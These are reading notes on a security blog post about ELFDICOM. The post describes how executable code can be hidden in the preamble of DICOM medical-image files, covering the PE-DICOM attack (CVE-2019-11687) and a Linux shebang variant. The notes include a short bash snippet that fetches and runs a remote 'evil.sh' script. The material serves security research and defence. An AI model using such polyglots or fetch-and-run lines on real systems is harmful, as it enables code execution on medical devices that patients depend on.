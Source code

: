```yaml
---
author: Harry Hayward
aliases:
  - "ELFDICOM: PoC Malware Polyglot Exploiting Linux-Based Medical Devices"
tags:
  - readwise/articles
  - DICOM
url: https://www.praetorian.com/blog/elfdicom-poc-malware-polyglot-exploiting-linux-based-medical-devices/?__readwiseLocation=
date: 2025-05-08
summary: A serious vulnerability in the DICOM file format, used for medical imaging, allows attackers to embed malicious code in legitimate files. Praetorian's new proof of concept, ELFDICOM, demonstrates how this flaw can be exploited on Linux-based medical devices, posing a significant threat to healthcare systems. To mitigate this risk, implementing checks on the DICOM file preamble and using secure protocols can help protect against such attacks.
---
```

# ELFDICOM: PoC Malware Polyglot Exploiting Linux-Based Medical Devices

![rw-book-cover](https://www.praetorian.com/wp-content/uploads/2025/04/ELFDICON-Blog_SOcial-Card-1024x535.png)

## DICOM File Format Summary

A DICOM file consists of two primary sections: the File Header and the Data Set. The File Header contains the Preamble and Prefix. The Preamble has a reserved space of 128 bytes with no pre-determined structure, allowing applications to utilize it according to their specific needs—a design choice that promotes extensibility but also introduces security implications. The Prefix is the 4 bytes “DICM,” functioning as magic bytes used to identify the file’s format. The Data Set comprises multiple Data Elements that store file metadata or image data in a tag-value format. Each Data Element has a tag to identify its corresponding value. These tags can differentiate between metadata and image data values, and hundreds of other supported data types. The following is a visualization of the DICOM file format: [](https://read.readwise.io/read/01jtnkqxr5c3zjrbf42wphy4ay)

![Visual overview of the DICOM file format. The start of the file is the Preamble with multiple sections as discussed above.](https://www.praetorian.com/wp-content/uploads/2025/04/Figure-A.png) 


### PE-DICOM
This polyglot capability becomes particularly dangerous when paired with the DICOM file format. In 2019, Markel Picado Ortiz (d00rt) demonstrated an attack in [*Attacking Digital Imaging and Communication in Medicine (DICOM) file format standard*](https://github.com/d00rt/pedicom/blob/master/doc/Attacking_Digital_Imaging_and_Communication_in_Medicine_(DICOM)_file_format_standard_-_Markel_Picado_Ortiz_(d00rt).pdf). Ortiz crafted a polyglot consisting of a Windows PE executable and DICOM image to create a “PEDICOM” file. The Preamble was used to store the DOS header and stub, which pointed to a DICOM Data Element containing the PE header and code. The resulting PEDICOM file can be viewed in a traditional DICOM image viewer when opened with the “.dcm” extension, but if the malicious DICOM polyglot has a “.exe” extension, the embedded PE file will run on the Windows system. This vulnerability has been identified as [CVE-2019-11687](https://nvd.nist.gov/vuln/detail/CVE-2019-11687) and has a 7.8 CVSS 3 score. [](https://read.readwise.io/read/01jtnkt3a3fzvr91m1qyw4vxn5)



### Shebang-DICOM
D00rt’s research demonstrated that elaborate and robust Windows executable malware could be embedded within the DICOM file format. The arbitrary Preamble also enables less complex malicious files to execute on medical systems. For example, a shebang could be used on Linux systems for a shell script payload. A `#!/bin/sh` shebang would leave 119 characters to load and execute a remote script. Here’s an example of redirecting a locally hosted script to bash, which would enable an attacker to bypass that character limit:

```bash
#!/bin/bash
bash <(curl -s http://127.0.0.1:8000/evil.sh)
exit
```

Adding this to the preamble of a DICOM file (bashdicom.dcm) with the DICOM extension and executable bit set will execute the remote `evil.sh` script. [](https://read.readwise.io/read/01jtnktt261e0pg1jyfj3d8v3h)

## Other DICOM exploitation

- [Blog on Shielder - CVE-2023-33466 - Exploiting Healthcare Servers With Polyglot Files](Blog%20on%20Shielder%20-%20CVE-2023-33466%20-%20Exploiting%20Healthcare%20Servers%20With%20Polyglot%20Files.md)
